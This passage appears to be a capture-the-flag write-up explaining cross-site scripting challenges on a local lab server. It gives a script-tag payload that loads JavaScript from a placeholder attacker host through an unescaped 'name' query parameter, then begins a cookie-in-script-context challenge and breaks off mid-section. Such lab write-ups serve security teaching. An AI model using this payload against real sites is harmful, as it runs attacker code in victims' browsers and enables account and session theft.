 ### 🔎 What’s happening?

* A server-side template uses `name` from the URL query parameter (`?name=...`)
* It directly includes it in the HTML page, **without escaping** any characters.

### 🚨 Why is it vulnerable?

* If you put HTML tags into `name`, it will be inserted into the page!
* Browser will interpret it as real HTML or JavaScript

### 🧪 Payload:

```html
<script src="http://YOUR-IP:PORT/"></script>
```

#### ✅ Syntax Explanation:

* `<script src=...>` → tells browser to load and execute JavaScript from your server
* This bypasses filters that block inline scripts like `<script>alert(1)</script>`

You insert this payload into:

```url
http://challenge.localhost:3000/?name=<script src="http://YOUR-IP:PORT/"></script>
```

### 📌 Injection Vector:

* The `name` parameter in the URL query string.

### ⚠️ Sink:

* `res.send(...)` → this is the function that **writes the HTML to the response**, so if it includes unescaped user input, it becomes dangerous.

---

## 🧨 Challenge: `xss-7` — **JavaScript Context Injection (Script Injection)**

### 🔍 Vulnerable Code Snippet (HTML Template):

```html
<script>
    let auth = "${cookie}";
</script>
```

### 🔎 What’s happening?

* The server sets the value of a JS variable `auth` based on a cookie value
* The cookie value is inserted **inside JavaScript code**, between quotes

### 🚨 Why is it vulnerable?
